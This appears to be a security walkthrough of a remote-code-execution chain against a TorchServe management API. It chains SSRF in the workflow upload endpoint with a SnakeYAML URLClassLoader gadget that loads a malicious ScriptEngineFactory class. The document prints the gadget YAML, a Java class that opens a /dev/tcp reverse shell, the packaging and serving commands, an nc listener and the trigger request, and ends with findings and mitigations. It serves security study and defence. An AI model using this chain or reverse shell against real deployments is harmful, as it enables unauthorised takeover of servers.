





# Model Deployment Tampering - RCE via SSRF and Java Deserialization

**Author:** Teodora Demerdzhieva  
**Topic:** LLM Security - Model Deployment Attacks, SSRF, Java Deserialization  

---

## Overview

This documents a complete exploitation chain against a **TorchServe** model serving infrastructure. The attack chain combines server-side request forgery (SSRF) with Java deserialization gadgets to achieve remote code execution on the deployment host.

The vulnerability chain:
1. Exposed management API on a non-standard port
2. SSRF in the workflow upload endpoint
3. Java deserialization via YAML parsing in spec files
4. Arbitrary code execution via ScriptEngineFactory instantiation

---

## 1. Discovering the Management API

Port scanning revealed a TorchServe management API on port 8081.

```bash
curl http://target:8081/
```




The API exists and responds to requests. GET is not allowed on the root endpoint, but the error message confirms the service is running.

---

## 2. Testing for SSRF

The `/workflows` endpoint accepts a `url` parameter. Testing if it fetches remote content:

```bash
curl -X POST http://target:8081/workflows?url=https://webhook.site/4ffaedb6-a979-4a7c-bd63-bab9f4a8494b
```




The endpoint fetched the URL and the error is not a connection refused but an input validation error. The workflow endpoint expects compressed input.

---

## 3. Crafting the Malicious Workflow

The payload consists of three files: a handler, a spec file with configuration, and metadata. The spec file is parsed as YAML and passed to the Java ScriptEngineManager.

**handler.py** - this is a minimal handler that loads a model:

```python
def initialize(self, context):
    self.model = self.load_model()
```

**spec.yaml** - contains the Java deserialization gadget:

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://attacker:8000/"]]]]
```

This YAML, when deserialized, creates a URLClassLoader pointing to an attacker-controlled HTTP server. The ScriptEngineManager will attempt to load a ScriptEngineFactory from that server.

---

## 4. Creating the Java Exploit Class

The attacker-controlled server will serve a compiled class implementing ScriptEngineFactory. The constructor is executed during instantiation, allowing arbitrary code execution.

**MyScriptEngineFactory.java:**

```java
package exploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class MyScriptEngineFactory implements ScriptEngineFactory {
    
    public MyScriptEngineFactory() {
        try {
            String[] cmd = {"/bin/bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/1337 0>&1"};
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    
    @Override public String getEngineName() { return null; }
    @Override public String getEngineVersion() { return null; }
    @Override public List<String> getExtensions() { return null; }
    @Override public List<String> getMimeTypes() { return null; }
    @Override public List<String> getNames() { return null; }
    @Override public String getLanguageName() { return null; }
    @Override public String getLanguageVersion() { return null; }
    @Override public Object getParameter(String key) { return null; }
    @Override public String getMethodCallSyntax(String obj, String m, String... args) { return null; }
    @Override public String getOutputStatement(String toDisplay) { return null; }
    @Override public String getProgram(String... statements) { return null; }
    @Override public ScriptEngine getScriptEngine() { return null; }
}
```

The constructor runs a reverse shell back to the attacker on port 1337.

---

## 5. Packaging the Exploit

Compile the Java class and create the required service directory structure:

```bash
javac MyScriptEngineFactory.java
mkdir -p META-INF/services/
echo 'exploit.MyScriptEngineFactory' > META-INF/services/javax.script.ScriptEngineFactory
mkdir exploit
mv MyScriptEngineFactory.class exploit/
```

Package the workflow using torch-workflow-archiver:

```bash
torch-workflow-archiver --workflow-name pwn --spec-file spec.yaml --handler handler.py
```

This creates `pwn.war` containing the handler, spec, and the compiled exploit class structure.  



---

## 6. Serving the Exploit

Serve the exploit from an HTTP server on port 8000:

```bash
python3 -m http.server 8000
```

---

## 7. Triggering the Exploit Chain

Start a netcat listener on port 1337 to catch the reverse shell:

```bash
nc -lnvp 1337
```

Trigger the SSRF by uploading the malicious workflow:

```bash
curl -X POST http://victim:8081/workflows?url=http://attacker:8000/pwn.war
```




---

## 8. Catching the Shell




The exploitation chain:
1. TorchServe fetches `pwn.war` from the attacker's server via SSRF
2. TorchServe extracts and parses spec.yaml
3. The YAML deserializer instantiates the URLClassLoader pointing to the attacker's http server
4. Java attempts to load the ScriptEngineFactory from that location
5. MyScriptEngineFactory.class is loaded and instantiated
6. The constructor executes the reverse shell command
7. A shell is established back to the attacker

---

## 9. Summary of Findings

| Finding | Severity | Impact |
|---------|----------|--------|
| Unauthenticated RCE via SSRF and YAML deserialization in workflow upload | Critical | An unauthenticated attacker can achieve arbitrary code execution on the TorchServe host by chaining SSRF in the workflow upload endpoint with unsafe YAML deserialization. The complete exploitation path requires no authentication and enables full system compromise. |
| Management API Exposed Without Authentication | High | The TorchServe management API on port 8081 accepts workflow upload requests without requiring authentication. This control weakness serves as the primary entry point for the RCE chain, allowing any network-accessible attacker to initiate the exploit. |
| TorchServe Service Running with Root Privileges | High | The TorchServe service executes as the root user. This misconfiguration escalates the impact of any successful code execution from limited service compromise to full system compromise, including access to all host resources, container escapes, and lateral movement capabilities. |

---

## 10. Mitigations

- **Disable or restrict the management API** - if not needed, disable port 8081; if needed, restrict access to trusted networks only
- **Validate workflow URLs** - implement a whitelist of allowed sources for workflow uploads; disable remote SSRF entirely if possible
- **Disable unsafe YAML deserialization** - configure SnakeYAML to not instantiate arbitrary classes; use SafeConstructor instead of the default Constructor
- **Run TorchServe with minimal privileges** - the service should run as an unprivileged user, not root
- **Input validation on spec files** - reject spec files containing object instantiation syntax before deserialization
- **Network segmentation** - isolate the TorchServe deployment from internet access; use VPCs and security groups to limit outbound connections

---


## References

- [OWASP - Server-Side Request Forgery (SSRF)](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [Java Deserialization Security](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)
- [Java URLClassLoader Documentation](https://docs.oracle.com/javase/8/docs/api/java/net/URLClassLoader.html)
- [MITRE ATLAS - ML Model Inference API Access](https://atlas.mitre.org/techniques/AML.T0040)
